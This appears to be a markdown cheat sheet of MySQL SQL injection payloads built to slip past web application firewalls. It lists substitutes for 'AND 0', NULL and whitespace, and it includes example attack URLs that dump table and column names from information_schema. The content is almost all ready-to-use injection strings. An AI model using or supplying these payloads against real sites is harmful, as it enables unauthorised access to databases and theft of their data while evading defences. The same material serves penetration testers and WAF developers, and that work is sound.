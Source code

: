 ## The Alternative Ways of using `AND/OR 0` in SQLi (MySQL Specific)

- Traditional Way of using `AND/OR 0`
> ```sql
> and 1=0
> and false
> and 0
> and 50=60
> any number that are not the same will equal to (0, false, null)
> ```

- The Alternative Way of using `0` in `AND/OR 0` (for WAF bypass)
> - Using char() for 0, null, false values
> ```sql
> and char(0)
> and char(false)
> and char(null)
> ```
> - For Example:
> ```sql
> https://www.example.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
> ```

> - Any Mathematical/arithmetic or logical problems that are equal to 0
> ```sql
> and 1*0
> and 1-1
> and 0/1
> ```
> - For example:
> ```sql
> https://www.example.com/index.php?id=1 and 1*0 order by 1--
> ```

> - Using mod()
> ```sql
> and mod(29,9)
> ```

> - Using point()
> ```sql
> and point(29,9)
> ```

> - Using nullif()
> ```sql
> nullif(1337, 1337)
> ```

- The Alternative Way of using `AND/OR` in `AND/OR 0` (for WAF bypass)
> ```sql
> %             == Modulo
> &             == Bitwise And
> &&            == Logical And
> |             == Bitwise Or
> ||            == Logical Or
> ```
> - Example:
> ```sql
> https://www.example.com/index.php?id=1 % point(29,9) Order by 10--
> https://www.example.com/index.php?id=1 && point(29,9) Order by 10--
> https://www.example.com/index.php?id=1 ||point(29,9) Order by 11--
> ```

---

## The Alternative Way of using `NULL` in SQLi (MySQL)

- Traditional Way of using `NULL`
> ```sql
> UNION SELECT null, null, null, null
> ```

- The Alternative Way of using `NULL` (WAF Bypass)
> ```sql
> Union Select 0,0,0,0
> Union Select false,false,false,false
> Union Select char(null),char(null),char(null),char(null)
> Union Select char(false),char(false),char(false),char(false)
> Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
> Union Select 34=35,34=35,34=35,34=35
> ```

## The Alternative Way of using `WhiteSpace` in SQLi (MySQL)
> ```sql
> /**/
> /**_**/
> %23nuLL%0A
> %23qa%0A%23%0A
> %23foo*%2F*bar%0D%0A
> +
> /*️*/
> /*️⃣*/
> ```
